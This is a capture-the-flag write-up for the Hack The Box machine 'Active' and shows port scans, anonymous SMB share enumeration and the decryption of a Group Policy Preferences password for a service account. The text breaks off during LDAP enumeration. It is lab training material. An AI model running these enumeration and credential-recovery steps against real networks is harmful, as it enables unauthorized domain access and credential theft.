


# Resolution summary

- Target is vulnerable to **SMB null authentication**, allowing to disclose **GPP *Groups.xml* credentials** for the user **SVC_TGS**
- Using user credentials it is possible to **enumerate the AD** trough **LDAP** and discovered registered **SPNs**
- Discovered SPN is vulnerable to **Kerberoasting**, allowing to obtain Administrator credentials

## Improved skills

- Active Directory enumeration
- Kerberoasting

## Used tools

- nmap
- smbmap
- regpol.py
- https://github.com/t0thkr1s/gpp-decrypt
- ldapdomaindump
- impacket-GetUserSPNs
- hashcat
- impacket-psexec

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Active]
└─$ sudo nmap 10.10.10.100 -p- -sS -Pn -v -oN scans/all-tcp-ports.txt
...
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49169/tcp open  unknown
49171/tcp open  unknown
49182/tcp open  unknown
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Active]
└─$ sudo nmap 10.10.10.100 -p53,88,135,139,389,445,464,593,636 -sT -sV -sC -oN scans/open-tcp-ports.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 05:30 EDT
Nmap scan report for 10.10.10.100
Host is up (0.052s latency).

PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-24 09:37:39Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6m57s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-05-24T09:37:46
|_  start_date: 2021-05-24T09:32:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.01 seconds
```

# Enumeration

## Port 139 & port 445 - NetBIOS and SMB

Enumerated available shares:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Active]
└─$ smbmap -H 10.10.10.100
[+] IP: 10.10.10.100:445        Name: 10.10.10.100
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
        Users                                                   NO ACCESS
```

Enumerated Replication share:

```bash
┌──(kali㉿kali)-[~/…/box/Active/loot/SMB]
└─$ smbmap -R Replication -H 10.10.10.100 --no-write-check --depth 10
[+] IP: 10.10.10.100:445        Name: active.htb
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Replication                                             READ ONLY
        .\Replication\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    active.htb
        .\Replication\active.htb\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    DfsrPrivate
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Policies
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    scripts
        .\Replication\active.htb\DfsrPrivate\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ConflictAndDeleted
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Deleted
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Installing
        .\Replication\active.htb\Policies\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    {31B2F340-016D-11D2-945F-00C04FB984F9}
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    {6AC1786C-016F-11D2-945F-00C04fB984F9}
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        fr--r--r--               23 Sat Jul 21 06:38:11 2018    GPT.INI
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Group Policy
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    MACHINE
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    USER
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        fr--r--r--              119 Sat Jul 21 06:38:11 2018    GPE.INI
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Microsoft
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Preferences
        fr--r--r--             2788 Sat Jul 21 06:38:11 2018    Registry.pol
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Windows NT
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    SecEdit
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        fr--r--r--             1098 Sat Jul 21 06:38:11 2018    GptTmpl.inf
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Groups
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        fr--r--r--              533 Sat Jul 21 06:38:11 2018    Groups.xml
        .\Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        fr--r--r--               22 Sat Jul 21 06:38:11 2018    GPT.INI
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    MACHINE
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    USER
        .\Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Microsoft
        .\Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    Windows NT
        .\Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    SecEdit
        .\Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\*
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
        fr--r--r--             3722 Sat Jul 21 06:38:11 2018    GptTmpl.inf
```

Downloaded all the files:

```bash
┌──(kali㉿kali)-[~/…/box/Active/loot/SMB]
└─$ smbmap -R Replication -H 10.10.10.100 --no-write-check --depth 10 -A .
[+] IP: 10.10.10.100:445        Name: active.htb
[+] Starting search for files matching '.' on share Replication.
[+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI
[+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI
[+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol
[+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
[+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI
[+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

Enumerated ***Registry.pol***:

```bash
┌──(kali㉿kali)-[~/…/box/Active/loot/SMB]
└─$ sudo python3 /opt/regpol/regpol/regpol.py active.htb-Replication_active.htb_Policies_\{31B2F340-016D-11D2-945F-00C04FB984F9\}_MACHINE_Registry.pol
Software\Policies\Microsoft\SystemCertificates\EFS
    value: EFSBlob
    type:  3 REG_BINARY
    size:  971
    data:  b'\x01\x00\x01\x00\x01\x00\x00\x00\xc3\x03\x00\x00\xbf\x03\x00\x00\x1c\x00\x00\x00\x02\x00\x00\x00\x87\x03\x00\x008\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00\xaf\x19-\x18\x04\xb5\x00\xbe=\x1a\xfdv\xf4\x01\x00\x000\x82\x03\x830\x82\x02k\xa0\x03\x02\x01\x02\x02\x10tu\x18B5\t\x11\x88B\x8c,\xea_\x90\'\xc80\r\x06\t*\x86H\x86\xf7\r\x01\x01\x05\x05\x000P1\x160\x14\x06\x03U\x04\x03\x13\rAdministrator1\x0c0\n\x06\x03U\x04\x07\x13\x03EFS1(0&\x06\x03U\x04\x0b\x13\x1fEFS File Encryption Certificate0 \x17\r180718185345Z\x18\x0f21180624185345Z0P1\x160\x14\x06\x03U\x04\x03\x13\rAdministrator1\x0c0\n\x06\x03U\x04\x07\x13\x03EFS1(0&\x06\x03U\x04\x0b\x13\x1fEFS File Encryption Certificate0\x82\x01"0\r\x06\t*\x86H\x86\xf7\r\x01\x01\x01\x05\x00\x03\x82\x01\x0f\x000\x82\x01\n\x02\x82\x01\x01\x00\x8a\xed&\xe8L\xbf\xff?6\\\n>k\xcb\t\xecf)\xa2ZU\xf0\x18\xe5g#\x9c\xe6\xb8\x8e{\xe6\xd52\xbb\x8ct\xf7!\x12\x13\xab$\x80t\x94\x13c\xa4\x9aR#\x01i\x9a\xaaS\xff>Y\xca\x1d\x06\xfa\x97\x1dl\x85\x8cJ\x023G+\xda\xbb&_\xaa;\xe1r.U\x8f\xee\x01\xa8\x0eX\x15f!\x08_:R\xd5pV\xfa\xc1x\x98\x1c\xa5B3\xe0J\x02\x9f\xa2\xc06Ef\xbc\x1f\x8bZ=l\x00\xa6N\xa0\x9d\xbe\xd2\x88\x04LEA\xb5\x85\xdc\xc5L\xbe\xbep\x99\xbe1\xb6\xdc\xe6\xa4\xf9+RkM\xfa\xf8kZ\x8f\\\xb8\x82\xcc\x85\x91d\xc2\x91\xa6\x9f\xa32Q\xf2{\x174\xd0?\xc8}\xc2\x96\x13\x00\x08\x98\xd6.qx\xde\xe8-ik)V^\x13\x9b\xa7\x11\xf1\xd5!6\x0e\xdd\x1c\xd0\xd6\xf4d\xe7\xdd|\xa6\x06>\xa2\x8frcjj\xb1\xa0W\x19bl\xca\xd0\x11\xa13\xb4\x8c\x16f\xa8\xa0d\x82\x80\xee\x06\xfb\x8d\xc7\xd4\x92\xc6\x03\x02\x03\x01\x00\x01\xa3W0U0\x16\x06\x03U\x1d%\x04\x0f0\r\x06\x0b+\x06\x01\x04\x01\x827\n\x03\x04\x0100\x06\x03U\x1d\x11\x04)0\'\xa0%\x06\n+\x06\x01\x04\x01\x827\x14\x02\x03\xa0\x17\x0c\x15Administrator@ACTIVE\x000\t\x06\x03U\x1d\x13\x04\x020\x000\r\x06\t*\x86H\x86\xf7\r\x01\x01\x05\x05\x00\x03\x82\x01\x01\x00&\xef$\thV\xda\xbb[\x1e\x97\\\xb0\xec\xce\x06\x01\xd0m\xd9P\xa4\x01D\xbb\xfd\xca\x84\xd4$\xe8\x9bAk\xafi\xfc\x9e0\x8a\xf0\x7f\x1a\xb7\xdd.\xd2\xf70%\xf82\xd1\xb4J\x12\x1d)\xf5\x89\x91\x1c/\xe6f\xfc\x8d\xb3\x0c\xf9\xe4\xe8Z\x07s\x92\x89P\x96\xcd9\x84\x84\x94\x87 \x0f\xf7\xaa\x1b\xbc\xe7\xfa\x19#\xfa\xc8r\xb9\x1c{\x90l\xdb\xa6\x82S\xa3\xdf\xa8\xcc\xbb\xa3\x8d\xe8\x83\x87\x02\xe1\x11b\x96\x98$7gYZ\xe9\xfb\xee\x90C\x7fwn\x1d}\xb5\xcd@\xb3`\xed\xc9\xf7\x08&l\xefN\xfc\x89@7T\xcb\x89P@\xdf\xfbr\xbf\xd4N\xb6\x19\x139r\x066c\xdf\x8c\x85?\x1bL\x02\xfb\xb9F\xdd\x87\xb2\x1f\xcchH\xa3\xe0(h\xbbAckY\x1a6U=\xa3\xfe#\xe1y/Y\xbaUwFL\xc6\xa6\xfa\xc6M5\x11I[Xq\x80\xf7\xc4\x0f\x8f&\x17y\xf5\xc2\x0f\xcc^v_\x99\xdbF\xce\x8b.nt\x01]\x99hs\x05'

Software\Policies\Microsoft\SystemCertificates\EFS\Certificates\3D33FC7B7C6F982A07A49A5C76DA805938A16C6A
    value: Blob
    type:  3 REG_BINARY
    size:  1163
    data:  b'\x02\x00\x00\x00\x01\x00\x00\x00\xcc\x00\x00\x00\x1c\x00\x00\x00l\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x002\x005\x005\x003\x005\x00a\x003\x006\x00-\x004\x00e\x00e\x003\x00-\x004\x002\x00b\x009\x00-\x009\x005\x00d\x000\x00-\x00b\x002\x00f\x000\x003\x00a\x002\x008\x00a\x00c\x001\x00a\x00\x00\x00\x00\x00\x00\x00\x00\x00M\x00i\x00c\x00r\x00o\x00s\x00o\x00f\x00t\x00 \x00E\x00n\x00h\x00a\x00n\x00c\x00e\x00d\x00 \x00C\x00r\x00y\x00p\x00t\x00o\x00g\x00r\x00a\x00p\x00h\x00i\x00c\x00 \x00P\x00r\x00o\x00v\x00i\x00d\x00e\x00r\x00 \x00v\x001\x00.\x000\x00\x00\x00\x00\x00\x03\x00\x00\x00\x01\x00\x00\x00\x14\x00\x00\x00=3\xfc{|o\x98*\x07\xa4\x9a\\v\xda\x80Y8\xa1lj \x00\x00\x00\x01\x00\x00\x00\x87\x03\x00\x000\x82\x03\x830\x82\x02k\xa0\x03\x02\x01\x02\x02\x10tu\x18B5\t\x11\x88B\x8c,\xea_\x90\'\xc80\r\x06\t*\x86H\x86\xf7\r\x01\x01\x05\x05\x000P1\x160\x14\x06\x03U\x04\x03\x13\rAdministrator1\x0c0\n\x06\x03U\x04\x07\x13\x03EFS1(0&\x06\x03U\x04\x0b\x13\x1fEFS File Encryption Certificate0 \x17\r180718185345Z\x18\x0f21180624185345Z0P1\x160\x14\x06\x03U\x04\x03\x13\rAdministrator1\x0c0\n\x06\x03U\x04\x07\x13\x03EFS1(0&\x06\x03U\x04\x0b\x13\x1fEFS File Encryption Certificate0\x82\x01"0\r\x06\t*\x86H\x86\xf7\r\x01\x01\x01\x05\x00\x03\x82\x01\x0f\x000\x82\x01\n\x02\x82\x01\x01\x00\x8a\xed&\xe8L\xbf\xff?6\\\n>k\xcb\t\xecf)\xa2ZU\xf0\x18\xe5g#\x9c\xe6\xb8\x8e{\xe6\xd52\xbb\x8ct\xf7!\x12\x13\xab$\x80t\x94\x13c\xa4\x9aR#\x01i\x9a\xaaS\xff>Y\xca\x1d\x06\xfa\x97\x1dl\x85\x8cJ\x023G+\xda\xbb&_\xaa;\xe1r.U\x8f\xee\x01\xa8\x0eX\x15f!\x08_:R\xd5pV\xfa\xc1x\x98\x1c\xa5B3\xe0J\x02\x9f\xa2\xc06Ef\xbc\x1f\x8bZ=l\x00\xa6N\xa0\x9d\xbe\xd2\x88\x04LEA\xb5\x85\xdc\xc5L\xbe\xbep\x99\xbe1\xb6\xdc\xe6\xa4\xf9+RkM\xfa\xf8kZ\x8f\\\xb8\x82\xcc\x85\x91d\xc2\x91\xa6\x9f\xa32Q\xf2{\x174\xd0?\xc8}\xc2\x96\x13\x00\x08\x98\xd6.qx\xde\xe8-ik)V^\x13\x9b\xa7\x11\xf1\xd5!6\x0e\xdd\x1c\xd0\xd6\xf4d\xe7\xdd|\xa6\x06>\xa2\x8frcjj\xb1\xa0W\x19bl\xca\xd0\x11\xa13\xb4\x8c\x16f\xa8\xa0d\x82\x80\xee\x06\xfb\x8d\xc7\xd4\x92\xc6\x03\x02\x03\x01\x00\x01\xa3W0U0\x16\x06\x03U\x1d%\x04\x0f0\r\x06\x0b+\x06\x01\x04\x01\x827\n\x03\x04\x0100\x06\x03U\x1d\x11\x04)0\'\xa0%\x06\n+\x06\x01\x04\x01\x827\x14\x02\x03\xa0\x17\x0c\x15Administrator@ACTIVE\x000\t\x06\x03U\x1d\x13\x04\x020\x000\r\x06\t*\x86H\x86\xf7\r\x01\x01\x05\x05\x00\x03\x82\x01\x01\x00&\xef$\thV\xda\xbb[\x1e\x97\\\xb0\xec\xce\x06\x01\xd0m\xd9P\xa4\x01D\xbb\xfd\xca\x84\xd4$\xe8\x9bAk\xafi\xfc\x9e0\x8a\xf0\x7f\x1a\xb7\xdd.\xd2\xf70%\xf82\xd1\xb4J\x12\x1d)\xf5\x89\x91\x1c/\xe6f\xfc\x8d\xb3\x0c\xf9\xe4\xe8Z\x07s\x92\x89P\x96\xcd9\x84\x84\x94\x87 \x0f\xf7\xaa\x1b\xbc\xe7\xfa\x19#\xfa\xc8r\xb9\x1c{\x90l\xdb\xa6\x82S\xa3\xdf\xa8\xcc\xbb\xa3\x8d\xe8\x83\x87\x02\xe1\x11b\x96\x98$7gYZ\xe9\xfb\xee\x90C\x7fwn\x1d}\xb5\xcd@\xb3`\xed\xc9\xf7\x08&l\xefN\xfc\x89@7T\xcb\x89P@\xdf\xfbr\xbf\xd4N\xb6\x19\x139r\x066c\xdf\x8c\x85?\x1bL\x02\xfb\xb9F\xdd\x87\xb2\x1f\xcchH\xa3\xe0(h\xbbAckY\x1a6U=\xa3\xfe#\xe1y/Y\xbaUwFL\xc6\xa6\xfa\xc6M5\x11I[Xq\x80\xf7\xc4\x0f\x8f&\x17y\xf5\xc2\x0f\xcc^v_\x99\xdbF\xce\x8b.nt\x01]\x99hs\x05'

Software\Policies\Microsoft\SystemCertificates\EFS\CRLs
    value:
    type:  0 REG_NONE
    size:  0
    data:  b''

Software\Policies\Microsoft\SystemCertificates\EFS\CTLs
    value:
    type:  0 REG_NONE
    size:  0
    data:  b''
```

Enumerated ***MACHINE_Preferences_Groups_Groups.xml***:

```bash
┌──(kali㉿kali)-[~/…/box/Active/loot/SMB]
└─$ cat 10.10.10.100-Replication_active.htb_Policies_\{31B2F340-016D-11D2-945F-00C04FB984F9\}_MACHINE_Preferences_Groups_Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

Decoded GPO password: ‣

```bash
┌──(kali㉿kali)-[/opt/microsoft/gpp-decrypt]
└─$ python3 gpp-decrypt.py -c edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
...
[ * ] Password: GPPstillStandingStrong2k18
```

## Port 389 & port 3268 - LDAP

Enumerated LDAP using NSE:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Active]
└─$ sudo nmap -n -sV --script "ldap* and not brute" 10.10.10.100 -oN scans/ldap-enum.txt
...
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
| ldap-rootdse:
| LDAP Results
|   <ROOT>
|       currentTime: 20210524101247.0Z
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=active,DC=htb
|       dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=active,DC=htb
|       namingContexts: DC=active,DC=htb
|       namingContexts: CN=Configuration,DC=active,DC=htb
|       namingContexts: CN=Schema,CN=Configuration,DC=active,DC=htb
|       namingContexts: DC=DomainDnsZones,DC=active,DC=htb
|       namingContexts: DC=ForestDnsZones,DC=active,DC=htb
|       defaultNamingContext: DC=active,DC=htb
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=active,DC=htb
|       configurationNamingContext: CN=Configuration,DC=active,DC=htb
|       rootDomainNamingContext: DC=active,DC=htb
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       highestCommittedUSN: 94252
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       dnsHostName: DC.active.htb
|       ldapServiceName: active.htb:dc$@ACTIVE.HTB
|       serverName: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=active,DC=htb
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       isSynchronized: TRUE
|       isGlobalCatalogReady: TRUE
|       domainFunctionality: 4
|       forestFunctionality: 4
|_      domainControllerFunctionality: 4
...
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
| ldap-rootdse:
| LDAP Results
|   <ROOT>
|       currentTime: 20210524101247.0Z
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=active,DC=htb
|       dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=active,DC=htb
|       namingContexts: DC=active,DC=htb
|       namingContexts: CN=Configuration,DC=active,DC=htb
|       namingContexts: CN=Schema,CN=Configuration,DC=active,DC=htb
|       namingContexts: DC=DomainDnsZones,DC=active,DC=htb
|       namingContexts: DC=ForestDnsZones,DC=active,DC=htb
|       defaultNamingContext: DC=active,DC=htb
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=active,DC=htb
|       configurationNamingContext: CN=Configuration,DC=active,DC=htb
|       rootDomainNamingContext: DC=active,DC=htb
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
